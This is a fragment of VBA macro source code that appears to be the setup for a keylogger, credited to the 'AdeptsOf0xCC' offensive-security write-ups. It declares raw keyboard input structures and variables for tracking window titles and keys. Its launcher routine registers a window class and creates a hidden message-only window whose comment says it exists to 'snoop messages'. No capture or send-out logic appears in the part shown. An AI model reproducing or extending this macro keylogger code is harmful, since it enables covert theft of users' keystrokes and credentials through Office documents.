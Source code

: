 ```vb
    VKey As Integer '6-8 = 2 bytes
    Message As Long '8-12 = 4 bytes
    ExtraInformation As Long '12-16 = 4 bytes
End Type

Private Type RAWINPUT
    header As RAWINPUTHEADER
    data As RAWKEYBOARD
End Type

Public oldTitle As String
Public newTittle As String
Public lastKey As Long
Public cleaner(0 To 255) As Byte


Private Function FunctionPointer(addr As LongPtr) As LongPtr
  ' https://renenyffenegger.ch/notes/development/languages/VBA/language/operators/addressOf
    FunctionPointer = addr
End Function

'https://www.freevbcode.com/ShowCode.asp?ID=209
Public Function ByteArrayToString(bytArray() As Byte) As String
    Dim sAns As String
    Dim iPos As String
    
    sAns = StrConv(bytArray, vbUnicode)
    iPos = InStr(sAns, Chr(0))
    If iPos > 0 Then sAns = Left(sAns, iPos - 1)
    
    ByteArrayToString = sAns
 
 End Function

Public Sub launcher()
    Dim hwnd As LongPtr
    Dim mesg As MSG
    Dim wc As WNDCLASSEX
    Dim result As LongPtr
    Dim HWND_MESSAGE As Long
    
    'Some initialization for later
    oldTitle = "AdeptsOf0xCC"
    lastKey = 0

    'First we need to set a window class
    wc.cbSize = LenB(wc)
    wc.lpfnWndProc = FunctionPointer(AddressOf WndProc) 'We need to save this code as Module in order to use the AddressOf trick to get the our callback location
    wc.hInstance = GetModuleHandle(vbNullString)
    wc.lpszClassName = "VBAHELLByXC3LL"

    'Register our class
    result = RegisterClassEx(wc)

    'Create the window so we can snoop messages
    HWND_MESSAGE = (-3&)
    hwnd = CreateWindowEx(0, "VBAHELLByXC3LL", 0, 0, 0, 0, 0, 0, HWND_MESSAGE, 0&, GetModuleHandle(vbNullString), 0&)

End Sub


```